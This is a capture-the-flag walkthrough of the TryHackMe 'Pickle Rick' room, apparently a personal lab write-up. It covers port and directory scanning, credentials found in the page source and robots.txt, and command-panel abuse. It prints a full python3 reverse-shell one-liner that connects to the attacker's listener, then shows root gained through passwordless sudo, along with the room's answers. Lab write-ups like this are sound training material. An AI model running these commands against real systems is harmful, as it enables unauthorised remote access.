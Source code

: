 https://tryhackme.com/room/picklerick

BoxIP = 10.10.233.219

**Basic Enumeration**


    nmap -sC -sV -Pn -oN nmap_initial 10.10.233.219

    -sC = common scripts

    -sV = Versioning

    -Pn = no pings

    -oN output notation


**Open Ports**

Open 10.10.233.219:22

Open 10.10.233.219:80



**automated web enumeration**

    nikto -h 10.10.233.219

    gobuster dir -u http://10.10.233.219/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -x txt,php 

/assets

/portal.php

/robots.txt


**robots.txt**

    Wubbalubbadubdub


**Page source points of interest**

homepage = 

    Note to self, remember username!

    Username: R1ckRul3s

  
 **/protals.php**

using the found username and the word from robots.txt grants us access to a command panel page
 
 
 **Initial Foothold**

There is some filtering on the command pannel for concatonation and some other commands but using 'strings' command allows us to read files
 Ingredient 1 = mr. meeseek hair
 
 
 Using Netcat does not work but puttering around I found that python3 was usable on the system. Using revshells.com I grabbed a python3 reverse shell script

    export RHOST="10.9.2.110";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
 
 and we popped a shell on a NC listener
 
Navigating to a home directory for Rick we find the second ingredient
Ingredient 2 = 1 jerry tear

**PrivEsc**
     sudo -l

    Matching Defaults entries for www-data on
        ip-10-10-95-19.eu-west-1.compute.internal:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on
            ip-10-10-95-19.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL


well this is going to be easy

    www-data@ip-10-10-95-19:/home/rick$ sudo su

    sudo su

    root@ip-10-10-95-19:/home/rick# whoami

    whoami

    root

    root@ip-10-10-95-19:/home/rick# 


We have gotten root now lets find that last ingredient

Ingredient 3: fleeb juice




 
 
  
